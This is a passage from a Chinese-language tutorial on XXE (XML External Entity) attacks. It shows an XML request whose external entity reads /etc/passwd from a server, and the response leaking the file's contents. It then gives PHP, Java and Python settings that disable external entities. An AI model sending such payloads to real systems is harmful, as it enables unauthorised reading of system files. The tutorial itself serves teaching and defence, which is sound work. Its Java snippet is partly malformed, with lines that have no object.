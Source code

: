 HTTP Response:
```
HTTP/1.1 500 Internal Server Error
Content-Type: application/json
Content-Length: 127

{"errors":{"errorMessage":"org.xml.sax.SAXParseException: XML document structures must start and end within the same entity."}}
```
可以发现服务器端是能处理 xml 数据的，于是我们就可以利用这个来进行攻击

最终的请求和响应：

HTTP Request:
```
POST /netspi HTTP/1.1
Host: someserver.netspi.com
Accept: application/json
Content-Type: application/xml
Content-Length: 288

<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE netspi [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<search>name</search>
<value>&xxe;</value>
</root>
```
HTTP Response:
```
HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 2467

{"error": "no results for name root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync....
```

六、XXE 如何防御
方案一：使用语言中推荐的禁用外部实体的方法

PHP：
```
libxml_disable_entity_loader(true);
```
JAVA:
```
DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);

.setFeature("http://apache.org/xml/features/disallow-doctype-decl",true);

.setFeature("http://xml.org/sax/features/external-general-entities",false)

.setFeature("http://xml.org/sax/features/external-parameter-entities",false);
```
Python：
```
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```
方案二：手动黑名单过滤(不推荐)
